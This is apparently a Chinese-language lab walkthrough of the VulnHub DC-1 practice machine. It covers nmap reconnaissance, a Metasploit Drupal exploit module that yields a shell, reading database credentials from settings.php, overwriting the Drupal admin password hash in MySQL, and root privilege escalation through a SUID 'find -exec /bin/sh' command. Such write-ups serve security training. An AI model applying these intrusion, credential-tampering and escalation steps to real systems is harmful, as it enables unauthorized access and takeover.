


[DC-1靶机地址下载](https://download.vulnhub.com/dc/DC-1.zip)

[DC-1靶机说明](https://www.five86.com/dc-1.html)


先把kali和靶机都设置成NAT模式

查看两台MAC地址

设置---网络适配器---高级---MAC地址


```
kali   00:0C:29:E1:A9:D2
dc-1   00:0C:29:C1:D6:77
```

#### 信息收集

1、找出DC-1 的IP地址

```shell
nmap -sP 192.168.80.1/24 -oN   nmap.sP
nmap -sS -O 192.168.80.0/24   #-O是操作系统扫描
arp-scan -l
```

> 半开放扫描（TCP [SYN](https://so.csdn.net/so/search?q=SYN&spm=1001.2101.3001.7020)）：只发送一个SYN报文然后等待回应。相对于TCP Connect扫描更加安全，因为不建立一个完整的TCP连接，目标主机一般不会将此类型行为记入安全日志，但需要root权限。`nmap -sS 域名/IP地址` 扫描的时间可能比使用`-sT`的时间长
>
> SYN扫描，使用最频繁，安全，快


得出  DC-1的IP地址为192.168.80.133

kali 地址 192.168.80.132

2、对DC-1进行信息收集，扫描开放端口和运行的服务

```shell
nmap -A 192.168.80.133 -p 1-65535  -oN nmap.A
nmap -A -T4 -p-  192.168.80.133

#nmap -A 域名/IP地址      //强力扫描，耗时长
#nmap -T1~6 域名/IP地址	  //设置扫描速度，一般T4
```


```
80   drupal    CMS
	 三大PHP  CMS之一
	 	drupal
	 	wordpress
	 	joomla
```

使用`http://192.168.80.133/`访问靶机的http站点


#### 漏洞发现

3、使用`msfconsole`运行MSF工具

在MSF中使用`search drupal`搜索相关的漏洞利用模块


找到了与 http 相关的模块，根据 Rank（等级）优先选择带颜色的模块，使用 `use 2` 装载模块。

使用 `show options` 查看需要进行的设置，发现只需要设置 RHOSTS（目标）


所以使用 `set RHOSTS 192.168.80.133` 进行设置。设置完后如下：


使用`run`或者`exploit`运行模块


运行模块后，成功建立会话，使用 `shell` 即可获得靶机的 WebShell 


> Meterpreter是Metasploit框架中的一个扩展模块，作为溢出成功以后的攻击载荷使用，攻击载荷在溢出攻击成功以后给我们返回一个控制通道。使用它作为攻击载荷能够获得目标系统的一个Meterpreter shell的链接。Meterpreter  shell作为渗透模块有很多有用的功能，比如添加一个用户、隐藏一些东西、打开shell、得到用户密码、上传下载远程主机的文件、运行cmd.exe、捕捉屏幕、得到远程控制权、捕获按键信息、清除应用程序、显示远程主机的系统信息、显示远程机器的网络接口和IP地址等信息。另外Meterpreter能够躲避入侵检测系统。

#### 漏洞利用

1、使用`whoami`查看当前用户权限


2、使用 python脚本实现交互式shell

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

> 交互式 Shell：可以执行一些需要上下文的命令，并且会显示操作的结果。


3、使用`ls -la`查看当前目录所有文件及权限


4、查看`flag1.txt`


5、百度 drupal站点的默认配置文件，得知为`settings.php`

6、在网站目录下搜索 settings.php




7、查看配置文件


8、发现第二个flag，，并且还有靶机的数据库账号和密码

9、使用数据库的账户和密码进入数据库


10、先查看都有哪些数据库 `show databases;`


11、根据库名判断，drupaldb是靶机的Drupal站点使用的数据库

12、使用`use drupaldb`进入drupaldb数据库，查看所有表`show tables;`

发现一个`user`表，猜测可能有网站用户相关信息


13、`select * from users\G;` 显示`user`表中的所有数据

找到管理员账号和密码，根据密码形式可以得知密码经过了加密，

密码无法正常MD5解密


14、先输入`quit`退出数据库


15、Drupal 提供了可以直接修改管理员密码的方法。在 `/var/www/` 下使用 `php scripts/password-hash.sh tkm` 即可生成 tkm 这个字符串对应的 hash 值。


16、再次进入到数据库中，使用 `update drupaldb.users set pass="<hash值>" where name='admin'` 即可修改 admin 的密码为之前生成 hash 时使用的字符串，此处为 `tkm` 。


17、再次查看`users`表里的密码值

`select * from drupaldb.users\G;`，这个时候密码就改成了`tkm`


18、尝试用 `账户名admin 密码tkm `登录



成功登录，

19、尝试点击`Dashboard`，发现`flag3.txt`，进行查看


20、查看后发现文本内容中有两个特别的大写字母 `perms` 和 `find` ，根据此前 flag 的形式，使用 `find / -name "flag*"` 搜索所有开头为 flag 的文件。


21、成功找到 `flag4.txt` ，使用 `cat /home/flag4/flag4.txt` 进行查看。


22、根据 flag4.txt 中的内容，推测下一步需要进行提权，从而获得 root 权限，并访问 /root 目录，获得 flag5。

23、根据 flag3 中另外一个大写字母 `perms` ，猜测可能需要使用 SUID 提权，使用 `find / -user root -perm -4000 -print 2>/dev/null` 查找所有具有 SUID 权限且属主为 root 的文件。


> SUID 权限：在执行过程中，调用者会暂时获得该文件的所有者权限，且该权限只在程序执行的过程中有效


24、发现了 find 命令，并且根据 flag3 中提到的 -exec，可以确定需要使用 find 提权。

25、使用 `touch tkm` 创建提权需要的文件，然后使用 `find tkm -exec '/bin/sh' \;` 进行提权。


26、成功获得 root 权限，根据提示使用 `cd /root` 访问 /root 目录，找到了 `thefinalflag.txt` ，使用 `cat thefinalflag.txt` 进行查看。


**总结**

```
    使用 nmap 找寻并扫描靶机。
    使用 MSF 的对应模块，进行漏洞利用。
    利用 Python 实现交互式 Shell。
    在数据库层面，修改 Drupal 站点的用户密码。
    SUID 提权
    find 提权
```

